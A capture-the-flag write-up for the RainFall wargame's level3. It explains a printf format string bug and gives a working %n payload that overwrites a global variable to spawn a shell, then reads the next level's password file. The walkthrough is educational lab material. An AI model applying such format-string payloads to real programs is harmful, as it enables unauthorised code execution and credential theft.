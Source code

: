 ### Brief
This program contain a `main` function and a `v` function.
The `main` function only call `v` and return.
The `v` function declare a stack buffer of size 520 and fill it using `fgets`.
It then uses `printf` to display the content of the buffer.
And if a global variable called `m` is equal to `0x40` it opens a new shell.

### Exploit
Here the buffer is filled using a secured function and there is no buffer overflow that we can exploit.
But our user input is passed as an argument of the `printf` function so we will use that.

The `%n` format doesn't print anything.
It takes as the corresponding argument a pointer and store inside the number of character written so far.
So we will craft a payload to format printf so that it can rewrite the `m` global variable.
We can use format strings to print what is in the stack.
We use `%x` format to print out the stack and `0xdeadbeef` to see where our input is located.

```bash
level3@RainFall:~$ python -c "print('\xef\xbe\xad\xde|' + '%x '*5)" | ./level3 
ﾭ�|200 b7fd1ac0 b7ff37d0 deadbeef 2078257c
```

Here in the output we can see:
- `ﾭ�|` is the first part of the input and correspond to: `'\xef\xbe\xad\xde|'`
- `deadbeef` is the 4th word displayed

In other words we need to put the address that we want to write to first in the input.
Then we want to pop the stack 3 time and use `%n` to store at the address the number of byte written so far.
We also need to add extra bytes so that we correctly write `0x40`.

The address of the `m` variable is retrieved using gdb.
```bash
level3@RainFall:~$ gdb level3
(gdb) info variables
...
0x0804988c  m
```

### Get access
First is the address of the variable `m`.
Then we pop the stack 3 times.
We also add 41 extra byte so that `m` will get the value `0x40`

```bash
(python -c "print('\x8c\x98\x04\x08' + '%x'*3 + 'A'*41 +  '%n')"; echo "cat /home/user/level4/.pass") | ./level3
```